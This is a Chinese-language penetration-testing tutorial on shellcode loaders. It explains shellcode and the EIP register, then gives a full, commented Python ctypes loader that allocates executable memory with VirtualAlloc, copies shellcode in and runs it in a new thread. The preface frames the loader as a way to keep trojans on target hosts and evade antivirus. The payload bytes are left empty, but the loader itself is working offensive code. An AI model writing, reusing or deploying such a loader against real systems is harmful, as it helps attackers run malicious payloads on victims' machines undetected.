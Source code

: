 # 渗透测试 & ShellCode加载器

## 前言

​	在渗透测试过程中，往往需要使用木马上线目标主机来达到持久化、便捷化控制目标主机的目的。`shellcode`由于其自身可塑性高，杀软查杀难度较高，因此通常将木马`shellcode`化后，再进行免杀处理。

## ShellCode

​	`shellcode`为`16`进制的机器码，是一种地址无关代码，可在暂存器`EIP`溢出后，塞入一段可以让`CPU`执行的恶意代码，从而执行攻击者的任何指令。这是因为，当`shellcode`被写入内存后，会被翻译成`CPU`指令。`CPU`自上而下执行这些指令，这其中有一个特殊的寄存器，`EIP`寄存器，它里面存放的值是`CPU`下次要执行的指令地址，因此可以通过修改`EIP`寄存器的值来执行`shellcode`。

## 初探ShellCode加载器

​	由于`shellcode`是一串可执行的二进制代码，因此需要通过开辟一块具有可读写、可执行的区域来利用它。这里利用`python`语言中的`ctypes`库来实现该过程。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
"""
import ctypes

shellcode = bytearray(b'')

# 使用restype函数设置VirtualAlloc返回类型为ctypes.c_unit64，否则默认的是32位
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

# 申请内存，调用kernel32.dll动态链接库中的VirtualAlloc函数申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),  # 指向要分配的区域的起始地址的指针，值为null时指向系统保留其认为合适的区域
    ctypes.c_int(len(shellcode)),  # 分配区域的大小
    ctypes.c_int(0x3000),  # 内存分配的类型
    ctypes.c_int(0x40),  # 要分配的页区域的内存保护，可读可写可执行
)

# 调用kernel32.dll动态链接库中的RtlMoveMemory函数将shellcode移动到申请的内存中
buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),  # 指向要将字节复制到的目标内存块的指针
    buffer,  # 指向要从中复制字节的源内存块的指针
    ctypes.c_int(len(shellcode))  # 从源复制到目标的字节数
)

# 创建一个线程从shellcode放置位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),  # 指向SECURITY_ATTRIBUTES结构的指针，线程安全属性
    ctypes.c_int(0),  # 堆栈的初始大小
    ctypes.c_void_p(ptr),  # 指向由线程执行的应用程序定义函数的指针
    ctypes.pointer(ctypes.c_int(0)),  # 指向要传递给线程的变量的指针
    ctypes.c_int(0),  # 控制线程创建的标志，为0表示创建后，线程会立即运行
    ctypes.pointer(ctypes.c_int(0))  # 指向接收线程标识符的变量的指针，如果此参数为NULL，则不返回线程标识符
)

# 等待创建线程运行完成
ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),  # 对象的句柄
    ctypes.c_int(-1)  # 超时间隔，以毫秒为单位，将其设为负数，等待时间将成为无限等待，程序就不会结束
)
```
